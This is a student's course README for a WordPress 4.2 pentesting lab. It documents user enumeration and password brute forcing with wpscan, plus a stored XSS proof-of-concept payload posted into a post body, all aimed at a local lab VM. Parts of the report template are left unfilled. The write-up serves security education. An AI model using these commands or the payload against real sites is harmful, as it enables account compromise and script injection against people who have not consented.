 # Project 7 - WordPress Pentesting

Time spent: **20** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) User Enumeration
  - [ ] Summary: By using wpscan to enumerate all usernames, we can see if a user account exists on WordPress.
    - Vulnerability types: User Enumeration
    - Tested in version: 4.2
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: Run ```wpscan --url http://wpdistillery.vm --enumerate u``` in the Kali Linux terminal.
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Required) Vulnerability Name or ID
  - [ ] Summary: We can brute force passwords and get username and password combinations by using a wordlist of common passwords.
    - Vulnerability types: Bruteforce
    - Tested in version: 4.2
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: Run ```wpscan --url http://wpdistillery.vm --passwords /home/kali/Desktop/rockyou.txt --usernames admin``` in the Kali Linux terminal.
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Required) Authenticated Stored Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: On the WordPress site, add a new post and put ```<a href="[caption code="]</a><a title=" onmouseover=alert('hi') ">link</a>``` into the body of the post. Then click preview to see the result. An alert pops up after hovering the mouse over "link".
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work
The main challenges that I encountered was setting up Vagrant, finding commands in Powershell that are equivalent to commands in Linux, and running the Kali Linux terminal as the administrator.

## License

    Copyright [2020] [Mahin Khan]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
